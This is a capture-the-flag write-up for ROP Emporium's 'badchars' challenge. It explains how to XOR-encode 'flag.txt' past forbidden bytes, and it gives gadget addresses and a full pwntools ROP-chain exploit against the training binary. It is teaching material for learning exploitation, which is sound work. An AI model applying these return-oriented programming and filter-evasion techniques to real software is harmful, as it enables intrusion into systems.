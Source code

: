 # ROP Emporium: badchars Writeup

## What are Bad Characters?

If, let's say, in a binary `'a'` is a bad character (hex `0x61`), then wherever it appears — in registers or addresses — it will be truncated, ignored, or mutated. Hence, no part of our exploit or the addresses we use should contain that bad character.

For example:

- You **can't store** `'flag.txt'` in a register because `'a'` will not be accepted.
- You **can't use** an address like `0x03486103`, because it contains `0x61`.
- However, you **can use** an address like `0x06130210`, because it's not `0x61`— it's `0x06` and `0x13`.

---

## Output of `./badchars`

```
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> heyyo
Thank you!
```

To save us from doing too much reverse engineering to find the bad characters, the challenge gives them to us:

```
'x' 'a' 'g' '.'
Hex: 78 61 67 2e
```

---

## Objective

Just like the previous challenge `write4`, we are provided a `print_file()` function, and we need to place `'flag.txt'` into the `rdi` register and then call `print_file()` from the PLT.

We can write in the `.bss` or `.data` section. We'll be choosing `.bss` (reason explained at the end).

### Useful Gadgets (Found using ROPgadget)

```python
g1 = p64(0x004006a3) # pop rdi; ret;
g2 = p64(0x00400634) # mov qword ptr [r13], r12; ret;
g3 = p64(0x0040069c) # pop r12; pop r13; pop r14; pop r15; ret;
```

We only need `r12` and `r13` to write to memory, so we can zero out `r14` and `r15` using `p64(0x00)`.

Let’s also grab the `.bss` and `print_file()` addresses:

```python
bss_addr = 0x00601038
print_file = p64(0x00400510)
```

---

## Sending the String

Since we can't directly send `'flag.txt'` because `'a'`, `'g'`, `'x'`, and `'.'` are badchars, we need to encode them using XOR.

The cool property of XOR:

```
if str1 ^ key = str2, then str2 ^ key = str1
```

We’ll use this trick to encode `'flag.txt'` and decode it in place during runtime.

### Encoding

Let’s choose a key: `0x0202020202020202`. Using an XOR calculator, this encodes `'flag.txt'` to:

```
dnce,vzv
```

This new string contains **no badchars**. We pad and pack it:

```python
str = b"dnce,vzv".ljust(8, b'\x00')
str_packed = p64(u64(str))
xor_key = p64(0x0202020202020202)
```

Now use the pop and mov gadgets to write it into `.bss`.

---

## Decoding

From the disassembly, a useful gadget is:

```python
g4 = p64(0x00400628) # xor byte [r15], r14b
g5 = p64(0x004006a0) # pop r14 ; pop r15 ; ret
```

Here, `r14b` refers to the lowest byte of the `r14` register. In `.bss`, one address corresponds to one byte, so we can decode the string byte-by-byte.

### Memory Layout Example

A string like `0x0123456789abcdef` is stored as:

```
0x40231 : 0x01
0x40232 : 0x23
...
0x40238 : 0xef
```

So to decode, we need to:

- Set `r14b` to the XOR key byte (0x02 in our case)
- Set `r15` to the byte’s address
- Run the `xor` gadget

### Loop Explanation

We XOR each byte of the encoded string in memory with the appropriate byte of the key. Since the key was packed in little-endian format, the bytes are stored in reverse order. So we iterate from the last byte to the first:

```python
for i in range(8):
    payload += g5
    payload += p64(xor_key[7 - i])  # Because little-endian stores bytes in reverse
    payload += p64(bss_addr + i)    # Address of each byte to decode
    payload += g4                   # xor byte [r15], r14b
```

This decodes each byte in memory back into `'flag.txt'`.

---

## Final Payload

```python
from pwn import *

p = process('./badchars')

junk = b'A'*40
str = b"dnce,vzv".ljust(8, b'\x00')
str_packed = p64(u64(str))
xor_key = p64(0x0202020202020202)

bss_addr = 0x00601038
print_file = p64(0x00400510)

# gadgets
g1 = p64(0x004006a3) # pop rdi; ret;
g2 = p64(0x00400634) # mov qword ptr [r13], r12; ret;
g3 = p64(0x0040069c) # pop r12; pop r13; pop r14; pop r15; ret;
g4 = p64(0x00400628) # xor byte [r15], r14b
g5 = p64(0x004006a0) # pop r14 ; pop r15 ; ret

payload = junk
payload += g3 + str_packed + p64(bss_addr) + p64(0x00) + p64(0x00) + g2

for i in range(8):
    payload += g5
    payload += p64(xor_key[7-i])
    payload += p64(bss_addr + i)
    payload += g4

payload += g1 + p64(bss_addr) + print_file

p.sendline(payload)
p.interactive()
```

This returns the flag.

---

## Important Note: Why Use `.bss` Instead of `.data`?

If we use the `.data` section (`0x601028`), we run into a subtle bug during decoding.

```
[+] XOR-ing byte at 0x601028 : d with 0x2
[+] XOR-ing byte at 0x601029 : n with 0x2
[+] XOR-ing byte at 0x60102a : c with 0x2
[+] XOR-ing byte at 0x60102b : e with 0x2
[+] XOR-ing byte at 0x60102c : , with 0x2
[+] XOR-ing byte at 0x60102d : v with 0x2
[+] XOR-ing byte at 0x60102e : z with 0x2
[+] XOR-ing byte at 0x60102f : v with 0x2

```

You know what this returns? `flag.tzt`.
Why? 

Take a look at the address where 'z' is stored: `0x60102e`. 

It contains `2e`!!!! 

Which is a **badchar** and is hence **ignored**. The addresses following `.bss` don't have any badchars, therefore it is safe to use.

This took me around an hour to figure out after debugging a lot. So, be very wary of badchars, especially in addresses.


